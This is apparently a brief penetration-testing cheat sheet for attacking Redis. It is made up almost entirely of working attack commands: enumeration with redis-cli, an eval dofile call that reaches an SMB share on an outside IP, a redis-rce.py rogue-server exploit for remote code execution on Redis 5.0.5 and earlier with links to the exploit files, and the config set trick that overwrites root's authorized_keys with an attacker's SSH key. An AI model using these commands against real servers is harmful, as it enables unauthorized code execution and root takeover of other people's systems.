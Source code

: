 # Enumeration
```
redis-cli -h ip
config get *
```

# eval 
```
eval "dofile('\\\\\\\\10.21.176.25\\\\teest')" 0
```
# Redis RCE <=5.0.5
```
python3 redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so

https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so
https://github.com/Ridter/redis-rce/blob/master/redis-rce.py
```
# Redis unauthenticated ssh public_key overwrite
```
redis-cli -h ip
config set dir /root/.ssh
config set dbfilename authorized_keys
set 1 "ssh-rsa ..."
```
